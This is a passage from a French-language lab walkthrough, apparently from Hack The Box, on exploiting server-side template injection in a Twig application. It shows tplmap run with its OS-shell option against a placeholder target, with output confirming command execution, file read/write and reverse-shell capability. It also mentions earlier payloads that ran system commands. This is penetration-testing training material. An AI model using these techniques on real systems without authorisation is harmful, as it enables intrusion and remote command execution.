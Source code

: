 ```
</div>
</body>

```

Comme nous pouvons le voir dans la sortie/réponse ci-dessus, la charge utile soumise a été évaluée et les commandes spécifiées ( `id`, `uname -a`et `hostname`) ont été exécutées avec succès.

Encore une fois, nous aurions pu automatiser le processus d'exploitation du moteur de template que nous venons d'exécuter via [tplmap](https://github.com/epinna/tplmap) , comme suit.

#### tplmap.py - Shell du système d'exploitation

  tplmap.py - Shell du système d'exploitation

```
dsgsec@htb[/htb]$ ./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john --os-shell

[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if POST parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin is testing blind injection
[+] Twig plugin is testing rendering with tag '{{*}}'
[+] Twig plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  POST parameter: name
  Engine: Twig
  Injection: {{*}}
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, php code

[+] Run commands on the operating system.

Linux $

```
